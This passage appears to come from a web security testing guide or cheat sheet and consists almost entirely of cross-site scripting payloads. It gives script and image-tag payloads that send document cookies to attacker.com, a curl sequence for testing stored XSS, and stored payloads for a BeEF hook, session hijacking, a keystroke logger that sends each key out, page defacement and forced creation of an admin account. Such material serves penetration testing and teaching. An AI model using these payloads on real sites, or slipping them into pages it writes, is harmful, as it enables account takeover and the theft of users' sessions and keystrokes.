 ```html
<script>
fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>

<!-- Alternative: -->
<img src=x onerror="this.src='http://attacker.com/steal?c='+document.cookie">

<!-- Using XMLHttpRequest: -->
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://attacker.com/steal?cookie=' + btoa(document.cookie), true);
xhr.send();
</script>
```

### Stored XSS

**Testing methodology:**

```bash
# 1. Submit payload via POST request
curl -X POST http://target.com/comments \
    -d "comment=<script>alert('Stored XSS')</script>"

# 2. Visit page where comment is displayed
curl http://target.com/comments/123

# 3. Check if script executes
```

**High-impact stored XSS payloads:**

```html
<!-- BeEF (Browser Exploitation Framework) hook -->
<script src="http://attacker.com:3000/hook.js"></script>

<!-- Session hijacking -->
<script>
new Image().src='http://attacker.com/steal.php?cookie='+document.cookie;
</script>

<!-- Keylogger -->
<script>
document.onkeypress = function(e) {
    fetch('http://attacker.com/log?key=' + String.fromCharCode(e.which));
}
</script>

<!-- Defacement -->
<script>
document.body.innerHTML = '<h1>Hacked by Attacker</h1>';
</script>

<!-- Admin account creation -->
<script>
fetch('/admin/create-user', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({username: 'hacker', password: 'password123', role: 'admin'})
});
</script>
```
